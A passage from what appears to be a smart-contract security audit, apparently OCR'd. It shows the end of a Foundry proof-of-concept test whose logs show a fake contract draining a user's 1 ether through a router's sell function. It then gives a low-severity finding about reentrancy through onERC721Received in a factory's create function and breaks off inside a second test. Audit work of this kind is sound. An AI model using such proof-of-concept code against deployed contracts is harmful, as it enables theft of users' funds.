 ```js

        );

        // ethRouter.buy{value: 10e18}(buys, 0, false);

        ethRouter.sell(sells, 0, 0, false);
        vm.stopPrank();
        console.log(
            "Balance of this contract After:  %s ",
            address(this).balance

        );
        console.log("After eth balance of Alice : %s ", address(alice).balance);
    }

}
```

```bash
Logs:
  Balance of this contract before :  0 
  Before Alice sends  1 ether to ETH router : 1000000000000000000  
  Bob call sell  function with 0 ether and a fake contract  : 0  
  Balance of this contract After:  1000000000000000000 
  After eth balance of Alice : 0 
```

### [L-2]   Allowing  anyOne to reenter the `function create` in factory.sol may be problamatic  

In function create   we have ,
```js
_safeMint(msg.sender, uint256(uint160(address(privatePool))));
```
So  a user can  do like this  , I can't  see any exploit here but a  mallicious user   can use any other logic inside  `` onERC721Received``  so there is a risk   , 

```js
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./Fixture.sol";

contract Testo1 is Fixture {
    PrivatePool public privatePool;
    EthRouter.Buy[] public buys;
    uint256 public totalTokens = 0;
    uint256 public maxInputAmount = 0;
    // uint n = 0;
    function setUp() public { vm.deal(address(this), 1000_000 ether); }
    function testbuy() external {
        uint256[] memory empty = new uint256[](0);
        privatePool = factory.create{value: 1e18}(
            address(0),
            address(milady),
            100e18,
            10e18,
            200,
            100,
            bytes32(0),
            true,
            false,
            bytes32(address(this).balance), // random between each call to _addBuy
            empty,
```